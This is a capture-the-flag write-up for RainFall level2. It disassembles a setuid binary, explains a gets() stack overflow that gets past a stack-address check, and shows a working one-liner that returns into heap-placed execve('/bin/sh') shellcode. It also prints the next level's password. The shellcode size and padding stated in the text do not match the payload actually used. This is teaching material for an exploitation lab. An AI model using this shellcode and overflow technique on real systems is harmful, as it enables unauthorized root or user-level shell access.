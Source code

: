 # Level2

As in level1, we can find an executable waiting for an input, print it and quit after press enter
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
bla
bla
level2@RainFall:~$
```
After analyze it with radare2 (please refer to level1 if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `p()`.  
- main() :
```
[0x08048420]> s main
[0x0804853f]> pdda
    ; assembly                           | /* r2dec pseudo code output */
                                         | /* level2 @ 0x804853f */
                                         | #include <stdint.h>
                                         |  
    ; (fcn) main ()                      | int32_t main (void) {
    0x0804853f push ebp                  |
    0x08048540 mov ebp, esp              |
    0x08048542 and esp, 0xfffffff0       |
    0x08048545 call 0x80484d4            |     p ();
    0x0804854a leave                     |
    0x0804854b ret                       |
                                         | }
```
- p() :
```
[0x0804853f]> s sym.p
[0x080484d4]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level2 @ 0x80484d4 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.p ()                             | int32_t p (int32_t arg_4h) {
                                                 |     char * src;
                                                 |     int32_t var_ch;
                                                 |     int32_t var_4h;
    0x080484d4 push ebp                          |
    0x080484d5 mov ebp, esp                      |
    0x080484d7 sub esp, 0x68                     |
    0x080484da mov eax, dword [0x8049860]        |     eax = stdout;
    0x080484df mov dword [esp], eax              |
    0x080484e2 call 0x80483b0                    |     fflush (eax);
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
    0x080484f2 mov eax, dword [ebp + 4]          |     eax = *((ebp + 4));
    0x080484f5 mov dword [ebp - 0xc], eax        |     *((ebp - 0xc)) = eax;
    0x080484f8 mov eax, dword [ebp - 0xc]        |     eax = *((ebp - 0xc));
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |
                                                 |     if (eax == 0xb0000000) {
    0x08048505 jne 0x8048527                     |
    0x08048507 mov eax, 0x8048620                |         eax = "(%p)\n";
    0x0804850c mov edx, dword [ebp - 0xc]        |         edx = *((ebp - 0xc));
    0x0804850f mov dword [esp + 4], edx          |         *((esp + 4)) = edx;
    0x08048513 mov dword [esp], eax              |
    0x08048516 call 0x80483a0                    |         printf (eax);
    0x0804851b mov dword [esp], 1                |
    0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
    0x08048527 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x0804852a mov dword [esp], eax              |
    0x0804852d call 0x80483f0                    |     puts (eax);
    0x08048532 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x08048535 mov dword [esp], eax              |
    0x08048538 call 0x80483e0                    |     strdup (eax);
    0x0804853d leave                             |     
    0x0804853e ret                               |     return eax;
                                                 | }
[0x080484d4]>
```
Let focus on the `p()` function.  
As in level1, we can see call to `gets()` function with a size of 0x4c (76) wich is vulnerable to buffer overflow attack.
```
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
```
But to get the real size of the buffer we have to add 4 more bytes to reach the return adress (push ebp) => buffer = 80.  
A check is made to make sure we dont overwrite the return address to an adress on the stack
```
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |     if (eax == 0xb0000000) {
		                    
									more code...

	0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
```
Due to this check we couldn't point the return address to the stack. This avoids having a shellcode stored on the stack or in environment variable.  
But if we can't use the stack we can use the heap !  
We see in the program that the buffer is later copied inside a strdup. This function use malloc who store the memory in ... the heap.
```
	0x08048538 call 0x80483e0                    |     strdup (eax);
```
We can see that malloc always return the address `0x804a008` :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)								= 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)	= 0xbffff6fc
puts("")										= 1
strdup("")										= 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$
```
Now we can try to copy a shellcode in the heap by writing it in the input prompt and then write the allocated address (malloc) on the return address.  
Thanks to internet we find some Linux shellcode we found online which will run execve(/bin/sh)  
`\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`  
Since our shellcode is 41 bytes long we could pad the back with any byte sequence, until 80 bytes then 4 last bytes for the return adress.  
Our final attack buffer will looks like :  
- shellcode 			: 41 bytes
- pad of arbitrary data : 29 bytes
- return adress			: 4 bytes
```
level2@RainFall:~$ python -c "print '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80' + 'a' * 54 + '\x08\xa0\x04\x08'" >/tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
11Qh//shh/bin1��
               ̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
Level2 passed!
